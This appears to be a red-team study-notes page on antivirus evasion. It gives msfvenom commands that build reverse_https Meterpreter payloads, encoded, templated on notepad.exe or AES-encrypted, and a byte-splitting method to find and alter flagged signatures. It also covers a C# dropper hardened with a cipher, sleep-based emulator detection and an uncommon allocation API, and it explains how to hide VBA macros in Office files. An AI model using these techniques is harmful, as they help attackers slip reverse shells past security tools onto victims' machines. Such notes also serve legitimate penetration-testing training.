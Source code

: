 ## Antivirus overview
  Most antivirus software runs on an endpoint machine. They offer real-time scan, in which the software monitors file operations and scans a file when it is downloaded or an attempt is made to execute it. In either case, if a malicious file is detected, it is either deleted or quarantined. Most detection is signature-based, rely on MD5 or SHA-1 hashes of malicious files or on unique byte sequences discovered in known malicious files. Some software also performs heuristics or behavioral analysis that simulates execution of a scanned file.
  
  When preparing for an engagement, we ideally want to mirror the target system in our local environment to verify the effectiveness of our tools. Since, red team is super cheap, we can't build a test environment for every engagement. Therefor, we could test payload against[AntiScanMe](https://antiscan.me/). They do Not distribute result.
  
## Baby Steps to bypass AV
We can use [FindAVSig](/04FunWithAntivirus/Find-AVSignature.ps1) powershell script to spilt our payload, and scan each section of our payload individully to identify which byte are flaged by AV. The below code spilt met.exe into 10000 bytes same files. We can use windows defender or any AV product to scan them individully, to see which section get flagged. Once you find the section, break it down again with smaller interval until you find the exact byte. Once you find the byte that get flagged, you can replace it using [bytechange script](/04FunWithAntivirus/bytechange.ps1) Hint,Sometimes, modifying the byte at the exact offset will not evade the signature, but modifying the byte before or after it will. And don't forget, you want to test the payload, sometime modification will mess up the payload..
```
PS C:\nonosquare> Import-Module .\Find-AVSignature.ps1
PS C:\nonosquare> Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\nonosquare\met.exe -OutPath C:\nonosquare\avtest1 -Verbose -Force
```
Let's say if the second 20000 byte get flagged, we can break down agin with small interval, and scan again.
```
Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\nonosquare\met.exe -OutPath C:\nonosquare\avtest1 -Verbose -Force
```

## play with Encoder or Encryptors
Encoders generally used character substitution to replace bad characters
```
kali@kali:~$ msfvenom --list encoders

Name Rank Description
---- ---- -----------
x64/xor normal XOR Encoder
x64/xor_context normal Hostname-based Context Keyed Payload
Encoder
x64/xor_dynamic normal Dynamic key XOR Encoder
x64/zutto_dekiru manual Zutto Dekiru
x86/add_sub manual Add/Sub Encoder
x86/alpha_mixed low Alpha2 Alphanumeric Mixedcase Encoder
```

Encoder Useage
```
kali@kali:~$ sudo msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=443 -e x86/shikata_ga_nai -f exe -o /var/www/html/met.exe
```

Enconder using Windows application as a template, copy C:\Windows\System32\notepad.exe to Kali and use it as a template
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o met64_notepad.exe
```

Encryption is design to replace to ineffectiveness of encoders for antivirus evasion
```
kali@kali:~$ msfvenom --list encrypt
================================================
Name
----
aes256
base64
rc4
xor
```

Let's encrypt with AES and see
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP PORT=443 --encrypt aes256 --encrypt-key fdgdgj93traskfaswergfsdfg33 -f exe -o met64_aes.exe
```

## Play with C#
Let's modify this [banana C# payload dropper](/02ClientSideWithWindowsScriptHost/Class1.cs) to make it stronger and better.
- 1. We can use [Caeasr Ciper code](/04FunWithAntivirus/Caesar.cs) to encrpt our payload, and add encypted payload to our beefy c# dropper, we add a decryption routine to get our old payload before load into memory. 
- 2.Let's mess with our code behavior a bit to bypass heuristic detection techniques. We can add a Sleep timer with Win32 Sleep API.If this section of code is being
simulated, the emulator will detect the Sleep call and fast-forward through the instruction. we can inject a two-second delay, and if the time checks indicate that two seconds have not passed during the instruction, we assume we are running in a simulator and can simply reutrn the code.
- 3.using non-emulated APIs,  antivirus emulators are cheap too, they often only simulate the execution of common exe or functions. We could bypass this by using a WinAPI that is not emulated. For example, [Win32 VirtualAllocExNuma](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma) a uncommon API, with Numa suffix, a system design to optimize memory usage on multi-processor servers. We can test this by reverse engineering the antivirus emulator, or test out various APIs against AV engine. let's use VirtualAllocExNuma instead of VirtualAllocEx to allocated memory, and we can put a check block, return code if the memeory is not allocated.
- 4.After adding those 3 ttps, this is our [beefy C# dropper](/04FunWithAntivirus/beefyC#dropper.cs)
- 5.TODO, reseach more uncommon API, lookinto Win32 FlsAlloc.(page 185)

## Play with VBA for a beefy Marco(page 190)
We could use the sane ttp as mentioned with c# methos. 1. use a ciper to encrypt payload, 2. add delay function, 3.using non-emulated API in VBA script. The microsofy office files with .doc and .xls extension use a [Compound File Binary File Format](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cfb/53989ce4-7b05-4f8d-829b-d08d6148375b), which combine multiple files into a single disk file.

We can use [FlexHex editor](http://www.flexhex.com/download/) to inspect the .doc file fomrat to understand it better.
- 1.open a marco word doc with  Flex, File > Open > OLE Compound File
- 2.expend Macro and VBA folders on the lower-left Navigation window, content related to VBA macros are located in the Macros
- 3.The **Project** file contains project information. We can edit the Project file to hide macro from within the graphical office VBA editor. Select **“Module=NewMacros”**, which is what the GUI editor uses to link the displayed macros, replace this value with null.highlighting the ASCII string and navigating to **Edit > Insert Zero Block**
